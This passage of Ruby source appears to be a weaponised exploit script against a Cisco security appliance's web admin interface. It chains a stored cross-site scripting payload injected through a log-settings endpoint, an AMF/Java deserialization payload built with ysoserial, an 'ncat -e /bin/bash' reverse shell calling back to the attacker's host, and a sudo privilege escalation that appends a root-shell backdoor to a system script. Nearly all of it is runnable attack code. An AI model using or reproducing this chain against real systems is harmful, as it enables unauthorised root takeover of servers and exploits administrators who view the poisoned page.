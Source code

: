 ```ruby
      puts %{python -c 'import os;f=open("/opt/CSCOcpm/bin/file-info.sh", "a+", 0);f.write("if [ \\"$1\\" == 1337 ];then\\n/bin/bash\\nfi\\n");f.close();os.system("sudo /opt/CSCOcpm/bin/file-info.sh 1337")'}
      puts "[+] Press enter, then interact with the root shell,".green.bold +
        " and press CTRL + C when done".green.bold
    else
      puts line
    end
  end
end
YSOSERIAL = "#{ysoserial_jar} ysoserial.exploit.JRMPListener JRMP_PORT ROME"
JS_PAYLOAD = %{<script>function b64toBlob(e,r,a){r=r||"",a=a||512;for(var t=atob(e),n=[],o=0;o<t.length;o+=a){for(var l=t.slice(o,o+a),b=new Array(l.length),h=0;h<l.length;h++)b[h]=l.charCodeAt(h);var p=new Uint8Array(b);n.push(p)}return new Blob(n,{type:r})}b64_payload="<PAYLOAD>";var xhr=new XMLHttpRequest;xhr.open("POST","https://<RHOST>/admin/messagebroker/amfsecure",!0),xhr.send(b64toBlob(b64_payload,"application/x-amf"));</script>}
rhost = ARGV[0]
rport = ARGV[1]
lhost = ARGV[2].dup.force_encoding('ASCII')
Dir.mktmpdir { |temp_dir|
  nc_port = rand(10000..65535)
  puts "[+] Picked port #{nc_port} to receive the shell".cyan.bold
  # step 1: create the AMF payload
  puts "[+] Creating AMF payload...".green.bold
  jrmp_port = rand(10000..65535)
  amf_file = temp_dir + "/payload.ser"
  system("java -jar #{acsflex_jar} #{lhost} #{jrmp_port} #{amf_file}")
  amf_payload = File.binread(amf_file)
  # step 2: start the ysoserial JRMP listener
  puts "[+] Picked port #{jrmp_port} for the JRMP server".cyan.bold
  # build the command line argument that will be executed by the server
  java = "java -cp #{YSOSERIAL.gsub('JRMP_PORT', jrmp_port.to_s)}"
  cmd = "ncat -e /bin/bash SERVER PORT".gsub("SERVER", lhost).gsub("PORT", nc_port.to_s)
  puts "[+] Sending command #{cmd}".green.bold
  java_split = java.split(' ') << cmd
  jrmp = IO.popen(java_split)
  jrmp_pid = jrmp.pid
  sleep 5
  # step 3: start the netcat reverse shell listener
  t = Thread.new{start_nc_thread(nc_port, jrmp_pid)}
  # step 4: fire the XSS payload and wait for our trap to be sprung
  js_payload = JS_PAYLOAD.gsub('<RHOST>', "#{rhost}:#{rport}").
    gsub('<PAYLOAD>', Base64.strict_encode64(amf_payload))
  uri = URI.parse("https://#{rhost}:#{rport}/admin/LiveLogSettingsServlet")
  params = {
    :Action => "write",
    :Columns => rand(1..1000).to_s,
    :Rows => js_payload,
    :Refresh_rate => rand(1..1000).to_s,
    :Time_period => rand(1..1000).to_s
  }
  uri.query = URI.encode_www_form( params )
  Net::HTTP.start(uri.host, uri.port,
                  {:use_ssl => true, :verify_mode => OpenSSL::SSL::VERIFY_NONE }) do |http|
    #http.set_debug_output($stdout)
    res = http.get(uri)
  end
  puts "[+] XSS payload sent. Waiting for an admin to take the bait...".green.bold
  begin
    t.join
  rescue Interrupt
    begin
      Process.kill("TERM", jrmp_pid)
```